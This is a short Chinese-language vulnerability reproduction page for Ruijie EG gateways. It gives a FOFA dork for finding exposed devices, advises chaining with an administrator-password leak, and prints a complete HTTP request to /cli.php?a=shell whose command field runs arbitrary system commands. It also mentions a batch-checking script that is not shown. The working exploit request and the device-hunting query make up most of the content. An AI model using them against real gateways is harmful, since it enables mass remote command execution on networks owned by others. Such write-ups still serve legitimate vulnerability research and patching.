





# 影响范围：
锐捷EG易网关
# FOFa dork：
app="Ruijie-EG易网关"
# 漏洞复现：
登录页面：

此漏洞需要成功登录系统才能成功利用，可以结合管理员账号密码泄露漏洞获取管理员账号密码登录系统进一步进行漏洞利用。     
登录系统

登录成功后系统会返回当前设备状态，找到请求cli.php的数据包，完整数据包如下：
```
POST /cli.php?a=shell HTTP/1.1
Host: xxx.xxx.xxx.xxx
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=lto1mbbksusobp0u453c4elnp4; user=admin
Connection: close
Content-Length: 37

notdelay=true&command=df
```

将command参数值替换为需要执行的系统命令即可：  

使用脚本进行批量验证，本脚本结合了管理员账号泄露漏洞，自动获取账号密码并进行漏洞检测：  



